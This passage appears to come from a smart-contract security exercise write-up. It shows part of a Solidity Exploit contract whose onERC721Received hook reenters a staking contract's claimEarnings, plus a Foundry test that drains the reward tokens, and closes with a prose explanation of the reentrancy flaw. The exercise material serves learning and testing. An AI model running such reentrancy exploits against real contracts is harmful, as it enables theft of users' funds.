 ```
        uint256 tokenId,
        bytes calldata
    )
        external
        override
        returns (bytes4)
    {
        depositoor.claimEarnings(tokenId);
        return IERC721Receiver.onERC721Received.selector;
    }
}
```
- `test/Week10-11/RewardToken.t.sol`
```
contract RewardTokenTest is Test {
    address attackerWallet;
    RewardToken rewardTokenContract;
    NftToStake nftToStakeContract;
    Depositoor depositoorContract;
    Exploit exploitContract;

    function setUp() public {
        attackerWallet = address(0xbad);
        exploitContract = new Exploit();
        nftToStakeContract = new NftToStake(address(exploitContract));
        depositoorContract = new Depositoor(nftToStakeContract);
        rewardTokenContract = new RewardToken(address(depositoorContract));

        depositoorContract.setRewardToken(rewardTokenContract);
    }

    function testExploit() public {
        vm.startPrank(attackerWallet);
        exploitContract.stakeNFT(42, nftToStakeContract, depositoorContract);

        //forward 10 days so in `payout` rewards is 100 ether
        vm.warp(10 days);
        exploitContract.exploit(42, depositoorContract);

        _checkSolved();
    }

    function _checkSolved() internal {
        assertEq(rewardTokenContract.balanceOf(address(exploitContract)), 100 ether);
        assertEq(rewardTokenContract.balanceOf(address(depositoorContract)), 0);
    }
}
```

### Exploit
The vulnerability is in the `withdrawAndClaimEarnings` function, where `delete stakes[msg.sender]` is executed only after the NFT `safeTransferFrom`. When `Exploit` stakes into `Depositoor` and then calls `withdrawAndClaimEarnings`, a `safeTransferFrom` will be called and the `onERC721Received` hook in `Exploit` will be called. Since `delete stakes[msg.sender]` hasn't been executed when control has been handed over to `Exploit`, `Exploit` can reenter `Depositoor` and call `claimEarnings` as its stake will still be present in the `stakes` mapping.

